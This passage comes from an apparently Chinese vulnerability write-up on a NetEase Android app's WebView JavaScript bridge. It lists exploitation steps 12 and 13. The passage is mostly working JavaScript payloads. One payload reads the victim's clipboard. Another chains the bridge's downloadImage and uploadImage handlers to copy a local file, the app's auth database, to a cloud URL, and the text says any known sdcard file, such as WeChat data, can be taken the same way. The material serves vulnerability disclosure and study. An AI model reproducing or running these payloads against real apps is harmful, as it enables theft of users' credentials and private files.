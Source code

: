 
12. 漏洞利用：获取粘贴板内容

        //获取粘贴板内容
        WebViewJavascriptBridge.callHandler("getClipboardData", {iosVersion: "1.4.0",androidVersion: "1.4.0",upgrade: 0,params:{type:"text/plain"}},function(e){console.log(e)})

    ![clipboard](/assets/images/clipboard.png)

13. 漏洞利用：上传文件攻击，上传指定文件，包括受害者数据库，share_prefs等，sdcard上的任何已知文件。由于无法遍历文件夹列表，因此只能指定文件上传，即使这样，也由足够的文件量，例如微信的外置存储相关的特征文件等。

        //下载文件/图片，可以是本地路径，返回文件id，高危！！！！！！
        WebViewJavascriptBridge.callHandler("downloadImage", {iosVersion: "1.5.3",androidVersion: "1.5.3",upgrade: 0,params:{url:"/data/data/com.netease.gl/databases/auth",isShowProgressTips:1}},function(res){
            console.log(res)
            console.log("upload file:", "/data/data/com.netease.gl/databases/auth")
            if(res.code==200){
                var localId = res.result.localId;
                //上传文件/图片，可以是本地路径，高危！！！！！配合上一步的文件id，完成文件上传，上传到网易云中
                WebViewJavascriptBridge.callHandler("uploadImage", {iosVersion: "1.5.3",androidVersion: "1.5.3",upgrade: 0,params:{localId:localId,isShowProgressTips:1,usageType:1}},function(res2){
                    if(res2.code==200){
                        var downloadUrl = res2.result.url
                        console.log("downloadUrl:", downloadUrl)
                    }
                    })
            }
            })

    上传图片文件：

    ![fileupload](/assets/images/fileupload.png)
